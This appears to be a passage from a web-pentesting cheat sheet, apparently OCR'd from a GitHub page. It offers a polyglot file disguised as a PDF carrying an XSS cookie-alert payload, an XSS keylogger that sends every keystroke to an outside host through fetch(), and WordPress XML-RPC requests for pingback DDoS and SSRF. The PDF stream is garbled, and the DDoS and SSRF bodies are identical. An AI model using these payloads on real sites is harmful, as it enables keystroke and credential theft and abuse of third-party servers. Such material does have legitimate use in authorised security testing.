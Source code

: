 ```powershell


%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>This is NOT a PDF!</h1> <img src=x onerror=alert(document.cookie)>
```

#### Cross-Site Scripting Keylogger

```
Easy JavaScript Keylogger with IMG Tags. Useful for XSS with Login Forms present.

<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>
```


#### XMLRPC.php

```powershell


List all Methods
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>


DDoS

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>


SSRF 

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
